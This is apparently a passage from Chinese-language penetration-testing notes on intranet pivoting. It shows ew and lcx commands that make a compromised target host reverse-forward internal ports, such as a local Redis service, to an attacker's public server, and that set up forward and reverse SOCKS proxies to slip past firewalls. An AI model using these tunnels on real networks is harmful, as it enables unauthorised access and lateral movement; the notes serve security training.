 ```shell
./ew -s lcx_slave -d [公网主机的ip] -e [公网主机的端口] -f [内网ip] -g [内网端口]
./ew -s lcx_slave -d 10.10.10.10 -e 8001 -f 127.0.0.1 -g 8080
```

这样就相当于目标靶机主动连接到公网主机，并将其监听的8080端口，通过反弹到公网主机（10.10.10.10:8001），然后再由公网主机转发到12345端口上，可供我们访问或连接。

任何主机访问10.10.10.10的12345端口就相当于访问靶机的127.0.0.1:8080。

#### 3. 举个例子（redis服务）

当靶机有某个服务如redis服务（127.0.0.1:6379）在端口转发后仍无法访问时，此时可能是有公网云防火墙或者目标主机开启了防火墙只允许80或443，（此时直接`lcx -tran 8000 127.0.0.1 6379`正向转发成功，但无法访问，因为不是80或443），这时需要一个公网服务器（如：同为阿里云的云服务器）来打通通道，也就是公网服务器作为中间人，先把redis服务转发到靶机某个端口，再转到公网服务器，再转到本地。

- redis是开启127.0.0.1:6379本地监听（所以无法访问）
- 靶机端口转发

```shell
lcx -slave 47.240.x.x 443 127.0.0.1 6379
```

其中47.240.x.x是指公网服务器的IP。

- 公网服务器监听

```shell
lcx -listen 443 9000
```

监听443，转发到9000端口。

- 本地连接公网服务器的9000端口即可。



## 0x02 代理

#### 1. 代理工具ew

- 当边界主机可以开放端口时（此时使用正向代理）

```shell
./ew -s ssocksd -l 8888
```


直接在边界主机中开放一个打击端口，然后在浏览器设置连接代理（ssocks，127.0.0.1:8888），接下来访问链接就会经过这个代理。

- 当边界主机无法开放端口时（此时使用反向代理）

在公网主机或者自己电脑监听代理：

```shell
./ew -s rcsocks -l 8888 -e 8001
```

在边界主机主动链接到公网主机：

```shell
./ew -s rssocks -d 10.10.10.10 -e 8001
```
